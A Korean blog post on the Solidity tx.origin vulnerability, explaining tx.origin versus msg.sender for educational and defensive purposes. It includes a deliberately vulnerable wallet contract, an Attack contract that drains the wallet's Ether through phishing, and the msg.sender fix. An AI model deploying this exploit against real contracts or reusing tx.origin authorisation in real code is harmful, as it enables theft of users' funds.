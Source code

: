 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 8) tx.origin
date: '2022-01-03 02:57:00'
author: 한성원
tags: tx.origin 취약점 SmartContract vulnerability
categories: 취약점분석
---
```



# 👋 tx.origin

## txorigin vs msg.sender
주로 tx.origin은 msg.sender과 비교된다.   
우선 우리가 잘 아는 msg.sender는 함수를 호출한 사람을 가리키는 주소이다.
tx.origin을 보면 tx는 transaction을 뜻한다. 즉 transaction을 만든 address를 뜻한다.

만약 account에서 smart contract A로 transaction을 보낸다면 msg.sender와 tx.origin은 같을 것이다. 왜냐하면 transaction을 만든이와 transaction을 보낸 사람이 같기 때문이다.

그렇다면 account -> smart contract A -> smart contract B 순으로 transaction을 보낸다면 어떻게 될까? B의 관점에서 본다면 transaction을 만든이는 account이고 msg.sender은 A일 것이다.
밑에 사진을 본다면 이해가 더 쉬울 것이다. 
![tx.origin_vs_msg.sender](./txorigin_vs_msg.sender.png)

- - -

## Example Code
이 Example Code는 solidity docs에 나와있는 내용이다!
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;
// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        // THE BUG IS RIGHT HERE, you must use msg.sender instead of tx.origin
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}
```
```
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
시나리오는 이렇다.
1. A가 10 Ether와 함께 Wallet contract를 배포한다.
2. B가 Attack contract를 Wallet contract의 주소와 함꼐 배포한다.
3. A가 Attack contract의 attack()을 call한다.
4. B는 Alice의 Ether를 다 가져오게 된다. 

"누가 속아서 attack()을 call해!" 할 수 있지만 충분히 일어날 수 있다고 생각된다.
- - -

## How to prevent?
solidity docs에서도 tx.origin을 authorization 사용하지 않을 것을 권장하고 있다. 또한 tx.origin은 사라질 수도 있다고 한다! 그러니 앞으로 msg.sender를 사용하도록 하자

```
Besides the issue with authorization, there is a chance that tx.origin will be removed from the Ethereum protocol in the future, so code that uses tx.origin won't be compatible with future releases Vitalik: 'Do NOT assume that tx.origin will continue to be usable or meaningful.'
```
- - -

## 마무리
정말 간단하게 고칠 수 있는 부분이라고 생각이 든다. 그리고 동시에 이런 사소한 실 수 하나가 큰 영향을 미칠 수 있다는 것이 놀랍다. 앞으로 tx.origin 말고 msg.sender를 꼭 사용하자!!!


### Reference
- https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9
- https://solidity-by-example.org/hacks/phishing-with-tx-origin/
- https://docs.soliditylang.org/en/v0.8.10/security-considerations.html
```toc

```